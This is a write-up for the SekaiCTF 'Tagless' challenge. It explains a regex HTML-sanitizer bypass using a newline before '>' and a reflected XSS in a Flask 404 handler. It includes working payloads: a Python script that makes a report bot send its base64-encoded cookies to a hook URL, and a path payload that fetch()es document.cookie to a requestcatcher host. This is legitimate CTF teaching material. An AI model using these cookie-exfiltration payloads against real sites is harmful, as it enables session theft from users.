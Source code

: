 Writeup for SekaiCTF

# Tagless

This was a bot cookie exfiltration challenge. There's two solutions to this.

Background:
So this is a very simple app where you enter a message in a textarea and the message gets displayed on the area below after sanitization.
The sanitization logic is this:

```
function sanitizeInput(str) {
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, ''); 
    return str;
}
```

This basically removes all HTML tags from the input. 

`<.*>`: Matches any string that starts with < and ends with >, including any characters in between.
`<\.*>`: Matches any string that starts with < and ends with >, including any characters in between, but with a literal . character. // I can't understand why this is needed
`<.*>.*<\/.*>`: Matches any string that starts with <, followed by any characters, then >, followed by any characters, then </, followed by any characters, and ending with >.

The bypass was to basically to use '\n>' instead of '>' because most html parsers will overlook this and consider it a valid tag.

In the code we find there is a query parameter auto_input which does the same thing as the textbox,i.e. send an input to sanitizer and then display. So this is surely for the bot.

There is also an 404 handler route which has this code:
```
@app.errorhandler(404)
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```
Its directly appending the path to the return which is vulnerbale to XSS.

Exploit:

Method one:
The exploit is basically to send this payload as auto_input value to the report url.

```
js2 = urllib.parse.quote(f"t/; window.location=\"{HOOK_URL}/?c=\" + btoa(document.cookie); //")
js = f"<script src=\"http://127.0.0.1:5000/{js2}\"></script>"

# Sanitize bypass
js = urllib.parse.quote(js.strip().replace(">","\n>"))

url = f"http://127.0.0.1:5000/?auto_input={js}"
r = requests.post(f"{BASE_URL}/report", data={"url": url})

```

Method 2:

We use the error handler logic. We can check for XSS by using this POC:
`https://tagless.chals.sekai.team/%3Cscript%20src=%22/**/alert(document.domain)//%22%3E%3C/script%3E` which shows an alert box.
So our final payload is 
`http://127.0.0.1:5000/<script src="/**/fetch(`https://byc.requestcatcher.com//?cookie=${document.cookie}`)//"></script>`
